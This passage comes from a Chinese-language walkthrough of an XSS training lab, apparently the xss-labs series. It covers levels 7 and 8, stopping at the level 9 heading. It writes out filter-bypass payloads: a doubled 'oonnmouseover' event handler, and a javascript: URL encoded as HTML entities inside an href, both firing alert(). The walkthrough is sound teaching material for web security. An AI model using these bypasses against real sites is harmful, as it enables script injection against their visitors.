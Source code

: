 发现17行on和script消失了，所以用双写绕过,加上引号闭合

```
"oonnmouseover="alert()
```

弹窗成功

查看源码

![img](https://img-blog.csdnimg.cn/6238c326b8dd4209a44c00d66fa9621e.png)

str_replace替换字符过滤，strtolower所有字母转为小写

**小结**：他会识别on并删除所以在on中间加一个on，这样，他删除on后就变成了onmouseover了，就可以执行代码了

# level 8

![image-20230928155636685](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20230928155636685.png)

让添加链接

尝试a标签

```
">"<a href="javascript:alert(1)">123</a>
```

![image-20230928155946156](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20230928155946156.png)

20行发现他将输入的放到了a标签，并且script做了替换过滤

利用href的隐藏属性自动Unicode解码，我们可以插入一段js伪协议

```
javascript:alert()
```

利用在线工具进行Unicode编码后得到，[在线Unicode编码解码](https://www.matools.com/code-convert-unicode)

```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;
```

接着我们插入href里面

![img](https://img-blog.csdnimg.cn/fa508fc6addb458cb4bef2043372e5c3.png)

点击友情链接，弹窗成功

查看源码

![img](https://img-blog.csdnimg.cn/cf20c96c9ba543c2a8b43876a6eaabfe.png)

**本关小结**： href属性自动解析Unicode编码

# level9

